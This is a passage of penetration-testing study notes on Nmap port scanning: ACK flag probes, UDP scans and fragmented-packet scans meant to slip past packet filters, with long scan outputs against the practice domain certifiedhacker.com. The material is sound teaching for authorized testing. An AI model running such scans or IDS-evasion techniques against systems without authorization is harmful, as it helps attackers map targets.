SF:tocol\x2065363\.19778:\x20server\x20supports\x201\.0\x20to\x203\.0\0Fpo
SF:stmaster\.c\0L1624\0RProcessStartupPacket\0\0");
Service Info: OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:6

Host script results:
|_clock-skew: -11h57m36s

NSE: Script Post-scanning.
Initiating NSE at 01:09
Completed NSE at 01:09, 0.00s elapsed
Initiating NSE at 01:09
Completed NSE at 01:09, 0.00s elapsed
Initiating NSE at 01:09
Completed NSE at 01:09, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.01 seconds
```

## Use Illegal Flag Combinations to Scan the Target

- Refers to the use of FIN, URG, PUSH, a combination of these or no flags to scan a target for open ports
- These scans work only on OSes with RFC 793-compliant TCP/IP implementations
- These scans do not work against any current version of Microsoft Windows


## Use ACK Flag Probe Scan on the Target and See the Response

In ACK flag probe scan, penetration testers send TCP probe packets with the ACK flag set to a remote device and then analyze the header information (TTL and WINDOW field) of received RST packets to find whether the port is open or closed. The ACK flag probe scanning exploits the vulnerabilities within the BSD-derived TCP/IP stack. Thus, this scanning is effective only on those OSs and platforms on which the BSD derives TCP/IP stacks.

**Categories of ACK flag probe scanning include:**

- TTL-based ACK flag probe scanning

  In this scanning technique, penetration tester sends ACK probe packets (thousands in number) to different TCP ports, and then analyze the TTL field value of the received RST packets.

  If the TTL value of RST packet on a port is less than the boundary value of 64, then that port is open. Here is an example displaying a log of the first four RST packets received:

  


​		In the above example, port 22 has returned a TTL value of 50, which is less than 64; all other
​		ports returned a TTL value of 80, which is greater than 64. Therefore, port 22 is open.

- **WINDOW-based ACK flag probe scanning**

  In this scanning technique, penetration tester sends ACK probe packets (thousands in number) to different TCP ports and then analyze the WINDOW field value of the received RST packets. The penetration tester can use this scanning technique when all the ports return the same TTL value.

  On some systems, the WINDOW value of RST packets from closed ports is always zero. If the WINDOW of an RST packet on a port has a nonzero value, then that port is open. Here is an ‘example displaying a log of the first four RST packets received:

  

  ​							Figure 5.14; Open port based onthe window value of RST packet

  The above figure shows that the TTL value returned for each packet is the same, so the penetration tester has to use Window-based ACK flag probe scanning to find the open ports. In the above figure, the window value of the third packet has a nonzero window value, which ‘means that the port is open.

  However, you cannot rely on this technique alone to determine the state of ports as it works based on the TCP/IP implementation details used by only a minority of the systems on the Internet.

  **Advantages**

  - This type of scan can evade IDS in most cases.
  
  **Disadvantages**
  
  - This scan is slow and can exploit only older OSs with vulnerable BSD-derived TCP/IP   stacks.

The ACK flag probe scanning technique also assists in checking the filtering systems of target networks. The penetration tester sends an ACK probe packet to check the filtering mechanism   (firewalls) of packets employed by the target network.

Sending an ACK probe packet with a random sequence number and getting no response from the target means that the port is filtered (stateful firewall is present); an RST response from the target means thatthe port isnot fitered (no firewall is present).

Source: https://nmap.org

```
nmap -sA -P0 10.10.0.25
Starting nmap 7.60 (https://nmap.org) at 2018-01-16 12:15 EST
ALL 529 scanned ports on 10.10.0.25 are: filtered
```


## UDP Scan

Send UDP packets to a target system to find whether the port is open or closed.

- No response indicates an open or filtered port

- An ICMP port unreachable error message of type 3 with code 3 indicates a closed port, whereas type
  3 error with codes 0, 1, 2, 9, 10 or 13 indicates a filtered port


```
$sudo nmap -sU -v certifiedhacker.com
[sudo] password for sherwinowen: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-18 04:44 PST
Initiating Ping Scan at 04:44
Scanning certifiedhacker.com (162.241.216.11) [4 ports]
Completed Ping Scan at 04:44, 0.24s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:44
Completed Parallel DNS resolution of 1 host. at 04:44, 0.04s elapsed
Initiating UDP Scan at 04:44
Scanning certifiedhacker.com (162.241.216.11) [1000 ports]
Increasing send delay for 162.241.216.11 from 0 to 50 due to max_successful_tryno increase to 4
Increasing send delay for 162.241.216.11 from 50 to 100 due to max_successful_tryno increase to 5
Increasing send delay for 162.241.216.11 from 100 to 200 due to max_successful_tryno increase to 6
Increasing send delay for 162.241.216.11 from 200 to 400 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 162.241.216.11 from 400 to 800 due to 11 out of 11 dropped probes since last increase.
UDP Scan Timing: About 4.95% done; ETC: 04:54 (0:09:55 remaining)
UDP Scan Timing: About 7.65% done; ETC: 04:57 (0:12:16 remaining)
UDP Scan Timing: About 10.27% done; ETC: 04:59 (0:13:15 remaining)
UDP Scan Timing: About 22.74% done; ETC: 05:00 (0:12:28 remaining)
UDP Scan Timing: About 29.71% done; ETC: 05:01 (0:11:38 remaining)
Discovered open port 53/udp on 162.241.216.11
UDP Scan Timing: About 35.06% done; ETC: 05:01 (0:10:46 remaining)
UDP Scan Timing: About 40.75% done; ETC: 05:01 (0:09:55 remaining)
UDP Scan Timing: About 46.44% done; ETC: 05:01 (0:09:01 remaining)
UDP Scan Timing: About 52.33% done; ETC: 05:01 (0:08:07 remaining)
UDP Scan Timing: About 57.24% done; ETC: 05:01 (0:07:16 remaining)
UDP Scan Timing: About 62.41% done; ETC: 05:01 (0:06:24 remaining)
UDP Scan Timing: About 67.49% done; ETC: 05:01 (0:05:33 remaining)
UDP Scan Timing: About 72.65% done; ETC: 05:01 (0:04:40 remaining)
UDP Scan Timing: About 77.95% done; ETC: 05:01 (0:03:47 remaining)
UDP Scan Timing: About 83.20% done; ETC: 05:01 (0:02:54 remaining)
UDP Scan Timing: About 88.20% done; ETC: 05:01 (0:02:02 remaining)
UDP Scan Timing: About 93.26% done; ETC: 05:01 (0:01:10 remaining)
Completed UDP Scan at 05:02, 1079.00s elapsed (1000 total ports)
Nmap scan report for certifiedhacker.com (162.241.216.11)
Host is up (0.21s latency).
rDNS record for 162.241.216.11: box5331.bluehost.com
Not shown: 989 closed ports
PORT   STATE         SERVICE
2/udp  open|filtered compressnet
3/udp  open|filtered compressnet
7/udp  open|filtered echo
9/udp  open|filtered discard
13/udp open|filtered daytime
17/udp open|filtered qotd
19/udp open|filtered chargen
20/udp open|filtered ftp-data
21/udp open|filtered ftp
53/udp open          domain
68/udp open|filtered dhcpc

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1079.81 seconds
           Raw packets sent: 1455 (64.917KB) | Rcvd: 1068 (77.426KB)
```


## Use Fragmentation Scanning and Examine the Response

- Instead of just sending the probe packet, break it into a couple of small IP fragments
- You are splitting up the TCP header over several packets to make it harder for packet filters
  to detect what you are doing
- In NMAP, the -f switch instructs the specified SYN or FIN scan to use tiny fragmented packets
  

```
$nmap -sS -A -f certifiedhacker.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-18 05:06 PST
Nmap scan report for certifiedhacker.com (162.241.216.11)
Host is up (0.21s latency).
rDNS record for 162.241.216.11: box5331.bluehost.com
Not shown: 983 closed ports
PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp         Pure-FTPd
| ssl-cert: Subject: commonName=*.bluehost.com
| Subject Alternative Name: DNS:*.bluehost.com, DNS:bluehost.com
| Not valid before: 2021-01-28T00:00:00
|_Not valid after:  2022-01-28T23:59:59
22/tcp   open     ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:07:68:de:0c:92:4f:b5:e0:1f:cc:0b:c3:ba:0a:2f (DSA)
|_  2048 c5:65:11:7c:5b:03:60:8e:be:13:1e:d9:b6:8d:80:ac (RSA)
25/tcp   filtered smtp
26/tcp   open     smtp        Exim smtpd 4.94.2
|_smtp-commands: Couldn't establish connection on port 26
53/tcp   open     domain      ISC BIND 9.8.2rc1 (RedHat Enterprise Linux 6)
| dns-nsid: 
|_  bind.version: 9.8.2rc1-RedHat-9.8.2-0.62.rc1.el6_9.4
80/tcp   open     http        Apache httpd
| http-server-header: 
|   Apache
|_  nginx/1.19.10
|_http-title: Certfied Hacker
110/tcp  open     pop3        Dovecot pop3d
|_pop3-capabilities: STLS PIPELINING SASL(PLAIN LOGIN) AUTH-RESP-CODE CAPA UIDL TOP USER RESP-CODES
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Not valid before: 2021-06-17T15:34:55
|_Not valid after:  2021-09-15T15:34:54
143/tcp  open     imap        Dovecot imapd
|_imap-capabilities: capabilities more LOGIN-REFERRALS SASL-IR ID IMAP4rev1 IDLE LITERAL+ post-login have ENABLE AUTH=LOGINA0001 NAMESPACE AUTH=PLAIN STARTTLS OK listed Pre-login
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Not valid before: 2021-06-17T15:34:55
|_Not valid after:  2021-09-15T15:34:54
443/tcp  open     ssl/http    Apache httpd
| http-server-header: 
|   Apache
|_  nginx/1.19.10
|_http-title: Certfied Hacker
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Not valid before: 2021-06-17T15:34:55
|_Not valid after:  2021-09-15T15:34:54
465/tcp  open     ssl/smtp    Exim smtpd 4.94.2
|_smtp-commands: Couldn't establish connection on port 465
587/tcp  open     smtp        Exim smtpd 4.94.2
| smtp-commands: box5331.bluehost.com Hello certifiedhacker.com [119.95.198.40], SIZE 52428800, 8BITMIME, PIPELINING, PIPE_CONNECT, AUTH PLAIN LOGIN, STARTTLS, HELP, 
|_ Commands supported: AUTH STARTTLS HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
993/tcp  open     imaps?
|_imap-capabilities: capabilities more LOGIN-REFERRALS SASL-IR ID IMAP4rev1 IDLE NAMESPACE post-login have ENABLE AUTH=LOGINA0001 LITERAL+ AUTH=PLAIN OK listed Pre-login
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Not valid before: 2021-06-17T15:34:55
|_Not valid after:  2021-09-15T15:34:54
995/tcp  open     pop3s?
|_pop3-capabilities: RESP-CODES UIDL TOP USER PIPELINING SASL(PLAIN LOGIN) AUTH-RESP-CODE CAPA
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Not valid before: 2021-06-17T15:34:55
|_Not valid after:  2021-09-15T15:34:54
2222/tcp open     ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|_  1024 56:07:68:de:0c:92:4f:b5:e0:1f:cc:0b:c3:ba:0a:2f (DSA)
2525/tcp filtered ms-v-worlds
3306/tcp open     mysql       MySQL 5.6.41-84.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.6.41-84.1
|   Thread ID: 78663319
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, SwitchToSSLAfterHandshake, IgnoreSigpipes, FoundRows, SupportsTransactions, ConnectWithDatabase, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, LongPassword, LongColumnFlag, SupportsCompression, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: *;'RIX[AsA+R;n:sX>k"
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=*.bluehost.com
| Subject Alternative Name: DNS:*.bluehost.com, DNS:bluehost.com
| Not valid before: 2021-01-28T00:00:00
|_Not valid after:  2022-01-28T23:59:59
|_ssl-date: 2021-08-17T09:09:55+00:00; -11h57m37s from scanner time.
5432/tcp open     postgresql  PostgreSQL DB
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 1.0 to 3.0
|     Fpostmaster.c
|     L1624
|_    RProcessStartupPacket
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port993-TCP:V=7.91%I=7%D=8/18%Time=611C24DE%P=x86_64-pc-linux-gnu%r(SSL
SF:v23SessionReq,5,"\x80\x03\0\0\x01");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port995-TCP:V=7.91%I=7%D=8/18%Time=611C24DE%P=x86_64-pc-linux-gnu%r(SSL
SF:v23SessionReq,5,"\x80\x03\0\0\x01");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5432-TCP:V=7.91%I=7%D=8/18%Time=611C24DE%P=x86_64-pc-linux-gnu%r(SM
SF:BProgNeg,85,"E\0\0\0\x84SFATAL\0C0A000\0Munsupported\x20frontend\x20pro
SF:tocol\x2065363\.19778:\x20server\x20supports\x201\.0\x20to\x203\.0\0Fpo
SF:stmaster\.c\0L1624\0RProcessStartupPacket\0\0");
Device type: VoIP adapter
Running: Cisco embedded
OS CPE: cpe:/h:cisco:unified_call_manager
OS details: Cisco Unified Communications Manager VoIP adapter
Network Distance: 17 hops
Service Info: OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:6

Host script results:
|_clock-skew: -11h57m37s

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   6.59 ms   192.168.101.2
2   17.33 ms  119.95.192.1.static.pldt.net (119.95.192.1)
3   25.17 ms  122.2.175.190.static.pldt.net (122.2.175.190)
4   23.11 ms  210.213.131.101.static.pldt.net (210.213.131.101)
5   173.06 ms 210.213.131.117.static.pldt.net (210.213.131.117)
6   173.69 ms ce-0-13-0-3.r01.lsanca07.us.bb.gin.ntt.net (168.143.228.168)
7   173.38 ms ae-6.r24.lsanca07.us.bb.gin.ntt.net (129.250.3.122)
8   202.24 ms ae-7.r20.dllstx14.us.bb.gin.ntt.net (129.250.7.68)
9   205.75 ms ae-14.r24.dllstx09.us.bb.gin.ntt.net (129.250.3.37)
10  202.41 ms ae-2.r11.dllstx09.us.bb.gin.ntt.net (129.250.5.14)
11  206.36 ms ae-9.r10.dllstx09.us.bb.gin.ntt.net (129.250.2.103)
12  201.09 ms xe-2-0-1.rtrn2.dal1.net.unifiedlayer.com (162.215.243.7)
13  236.16 ms 162-215-243-21.unifiedlayer.com (162.215.243.21)
14  211.31 ms 162-241-0-28.unifiedlayer.com (162.241.0.28)
15  211.34 ms po100.router2b.hou1.net.unifiedlayer.com (162.241.0.5)
16  210.32 ms po100.router2a.hou1.net.unifiedlayer.com (162.241.0.3)
17  203.34 ms box5331.bluehost.com (162.241.216.11)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.28 seconds

```


## List open and closed ports

- Create a list of all the open ports identified in the previous step

- Open ports provide attack paths to intruders, and vulnerabilities in associated services can be exploited to compromise system security
- Once a port is closed, any request made to a machine via the closed port will result in a "this port is closed" acknowledgment from the machine

```
$nmap -T4 -A -v certifiedhacker.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-18 05:15 PST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 05:15
Completed NSE at 05:15, 0.00s elapsed
Initiating NSE at 05:15
Completed NSE at 05:15, 0.00s elapsed
Initiating NSE at 05:15
Completed NSE at 05:15, 0.00s elapsed
Initiating Ping Scan at 05:15
Scanning certifiedhacker.com (162.241.216.11) [2 ports]
Completed Ping Scan at 05:15, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:15
Completed Parallel DNS resolution of 1 host. at 05:15, 0.03s elapsed
Initiating Connect Scan at 05:15
Scanning certifiedhacker.com (162.241.216.11) [1000 ports]
Discovered open port 110/tcp on 162.241.216.11
Discovered open port 53/tcp on 162.241.216.11
Discovered open port 21/tcp on 162.241.216.11
Discovered open port 587/tcp on 162.241.216.11
Discovered open port 143/tcp on 162.241.216.11
Discovered open port 3306/tcp on 162.241.216.11
Discovered open port 995/tcp on 162.241.216.11
Discovered open port 993/tcp on 162.241.216.11
Discovered open port 80/tcp on 162.241.216.11
Discovered open port 443/tcp on 162.241.216.11
Discovered open port 22/tcp on 162.241.216.11
Discovered open port 5432/tcp on 162.241.216.11
Discovered open port 465/tcp on 162.241.216.11
Discovered open port 2222/tcp on 162.241.216.11
Discovered open port 26/tcp on 162.241.216.11
Completed Connect Scan at 05:15, 9.82s elapsed (1000 total ports)
Initiating Service scan at 05:15
Scanning 15 services on certifiedhacker.com (162.241.216.11)
Completed Service scan at 05:16, 40.02s elapsed (15 services on 1 host)
NSE: Script scanning 162.241.216.11.
Initiating NSE at 05:16
Completed NSE at 05:16, 10.80s elapsed
Initiating NSE at 05:16
Completed NSE at 05:16, 10.24s elapsed
Initiating NSE at 05:16
Completed NSE at 05:16, 0.02s elapsed
Nmap scan report for certifiedhacker.com (162.241.216.11)
Host is up (0.20s latency).
rDNS record for 162.241.216.11: box5331.bluehost.com
Not shown: 983 closed ports
PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp         Pure-FTPd
| ssl-cert: Subject: commonName=*.bluehost.com
| Subject Alternative Name: DNS:*.bluehost.com, DNS:bluehost.com
| Issuer: commonName=Sectigo RSA Domain Validation Secure Server CA/organizationName=Sectigo Limited/stateOrProvinceName=Greater Manchester/countryName=GB
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-28T00:00:00
| Not valid after:  2022-01-28T23:59:59
| MD5:   e141 675f 28f8 3cb1 fdbc 1cff 5aae 2ff3
|_SHA-1: 1d40 533a cab2 8402 3f61 467f 5334 2bda 106c e451
22/tcp   open     ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|_  1024 56:07:68:de:0c:92:4f:b5:e0:1f:cc:0b:c3:ba:0a:2f (DSA)
25/tcp   filtered smtp
26/tcp   open     smtp        Exim smtpd 4.94.2
| smtp-commands: box5331.bluehost.com Hello certifiedhacker.com [119.95.198.40], SIZE 52428800, 8BITMIME, PIPELINING, PIPE_CONNECT, AUTH PLAIN LOGIN, STARTTLS, HELP, 
|_ Commands supported: AUTH STARTTLS HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
53/tcp   open     domain      ISC BIND 9.8.2rc1 (RedHat Enterprise Linux 6)
| dns-nsid: 
|_  bind.version: 9.8.2rc1-RedHat-9.8.2-0.62.rc1.el6_9.4
80/tcp   open     http        Apache httpd
|_http-favicon: Unknown favicon MD5: 629CCC774AED95B2C6BEC91151F7292D
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| http-server-header: 
|   Apache
|_  nginx/1.19.10
|_http-title: Certfied Hacker
110/tcp  open     pop3        Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE PIPELINING CAPA UIDL TOP STLS USER SASL(PLAIN LOGIN) RESP-CODES
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
143/tcp  open     imap        Dovecot imapd
|_imap-capabilities: NAMESPACE IDLE Pre-login AUTH=LOGINA0001 have ENABLE ID capabilities STARTTLS listed SASL-IR more AUTH=PLAIN OK post-login LOGIN-REFERRALS IMAP4rev1 LITERAL+
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
443/tcp  open     ssl/http    Apache httpd
|_http-favicon: Unknown favicon MD5: 629CCC774AED95B2C6BEC91151F7292D
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| http-server-header: 
|   Apache
|_  nginx/1.19.10
|_http-title: Certfied Hacker
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
465/tcp  open     ssl/smtp    Exim smtpd 4.94.2
| smtp-commands: box5331.bluehost.com Hello certifiedhacker.com [119.95.198.40], SIZE 52428800, 8BITMIME, PIPELINING, PIPE_CONNECT, AUTH PLAIN LOGIN, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
587/tcp  open     smtp        Exim smtpd 4.94.2
| smtp-commands: box5331.bluehost.com Hello certifiedhacker.com [119.95.198.40], SIZE 52428800, 8BITMIME, PIPELINING, PIPE_CONNECT, AUTH PLAIN LOGIN, STARTTLS, HELP, 
|_ Commands supported: AUTH STARTTLS HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
993/tcp  open     imaps?
|_imap-capabilities: NAMESPACE IDLE LOGIN-REFERRALS AUTH=LOGINA0001 have ENABLE ID capabilities listed SASL-IR more AUTH=PLAIN OK Pre-login IMAP4rev1 post-login LITERAL+
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
995/tcp  open     pop3s?
|_pop3-capabilities: TOP PIPELINING SASL(PLAIN LOGIN) CAPA USER AUTH-RESP-CODE UIDL RESP-CODES
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
2222/tcp open     ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:07:68:de:0c:92:4f:b5:e0:1f:cc:0b:c3:ba:0a:2f (DSA)
|_  2048 c5:65:11:7c:5b:03:60:8e:be:13:1e:d9:b6:8d:80:ac (RSA)
2525/tcp filtered ms-v-worlds
3306/tcp open     mysql       MySQL 5.6.41-84.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.6.41-84.1
|   Thread ID: 78666805
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, DontAllowDatabaseTableColumn, IgnoreSigpipes, InteractiveClient, ConnectWithDatabase, Speaks41ProtocolOld, SupportsTransactions, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, LongPassword, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, LongColumnFlag, ODBCClient, FoundRows, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: iossi6nJe>CuD4toQ(r'
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=*.bluehost.com
| Subject Alternative Name: DNS:*.bluehost.com, DNS:bluehost.com
| Issuer: commonName=Sectigo RSA Domain Validation Secure Server CA/organizationName=Sectigo Limited/stateOrProvinceName=Greater Manchester/countryName=GB
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-28T00:00:00
| Not valid after:  2022-01-28T23:59:59
| MD5:   e141 675f 28f8 3cb1 fdbc 1cff 5aae 2ff3
|_SHA-1: 1d40 533a cab2 8402 3f61 467f 5334 2bda 106c e451
|_ssl-date: 2021-08-17T09:19:18+00:00; -11h57m36s from scanner time.
5432/tcp open     postgresql  PostgreSQL DB
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 1.0 to 3.0
|     Fpostmaster.c
|     L1624
|_    RProcessStartupPacket
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port993-TCP:V=7.91%I=7%D=8/18%Time=611C2715%P=x86_64-pc-linux-gnu%r(SSL
SF:v23SessionReq,5,"\x80\x03\0\0\x01");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port995-TCP:V=7.91%I=7%D=8/18%Time=611C2715%P=x86_64-pc-linux-gnu%r(SSL
SF:v23SessionReq,5,"\x80\x03\0\0\x01");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5432-TCP:V=7.91%I=7%D=8/18%Time=611C2715%P=x86_64-pc-linux-gnu%r(SM
SF:BProgNeg,85,"E\0\0\0\x84SFATAL\0C0A000\0Munsupported\x20frontend\x20pro
SF:tocol\x2065363\.19778:\x20server\x20supports\x201\.0\x20to\x203\.0\0Fpo
SF:stmaster\.c\0L1624\0RProcessStartupPacket\0\0");
Service Info: OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:6

Host script results:
|_clock-skew: -11h57m36s

NSE: Script Post-scanning.
Initiating NSE at 05:16
Completed NSE at 05:16, 0.00s elapsed
Initiating NSE at 05:16
Completed NSE at 05:16, 0.00s elapsed
Initiating NSE at 05:16
Completed NSE at 05:16, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.23 seconds
```

## Fingertprint OS

### Active OS Fingerprinting:

